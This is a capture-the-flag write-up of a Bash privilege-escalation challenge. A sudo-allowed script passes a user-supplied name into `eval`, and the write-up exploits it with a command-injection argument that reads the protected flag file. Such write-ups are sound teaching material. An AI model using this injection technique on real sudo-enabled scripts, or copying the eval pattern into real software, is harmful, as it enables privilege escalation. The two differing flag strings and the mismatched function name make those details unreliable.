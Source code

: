 # bash / Bash is fun

> Points: 478

## Question

> Bash is fun, prove me wrong and do some privesc.

## Solution

After connecting and knowing we have to privesc, try doing `sudo -l`,
where we get the following line:

```text
  (user-privileged) NOPASSWD: /home/user1/welcome.sh
```

What's in `welcome.sh`? Looking at everything in our home directory, we find it
alongside `flag.txt` and `welcome.txt`.

```bash
#!/bin/bash
name="greet"
while [[ "$1" =~ ^- && ! "$1" == "--" ]]; do case $1 in
  -V | --version )
    echo "Beta version"
    exit
    ;;
  -n | --name )
    shift; name=$1
    ;;
  -u | --username )
    shift; username=$1
    ;;
  -p | --permission )
     permission=1
     ;;
esac; shift; done
if [[ "$1" == '--' ]]; then shift; fi

echo "Welcome To SysAdmin Welcomer \o/"

eval "function $name { sed 's/user/${username}/g' welcome.txt ; }"
export -f $name
isNew=0
if [[ $isNew -eq 1 ]];then
    $name
fi

if [[ $permission -eq 1 ]];then
    echo "You are: "
    id
fi
```

Since `$name` is being passed straight into `eval`, we can attack that.
First, escape `function` with `greet { id; };` (defining a dummy function `f`).
Now we can just `cat flag.txt;` and add a `#` to comment out the rest of the `eval`.

```
$ sudo -u user-privileged ./welcome.sh -n "greet { id; }; cat flag.txt #"
Welcome To SysAdmin Welcomer \o/
FwordCTF{W00w_KuR0ko_T0ld_M3_th4t_Th1s_1s_M1sdirecti0n_BasK3t_FTW}
Welcome to Fword Island Mr user ! You have nothing to do here
```

...and we have our flag.

### Flag

`FwordCTF{BasH_1S_R3aLLy_4w3s0m3_K4hLaFTW}`
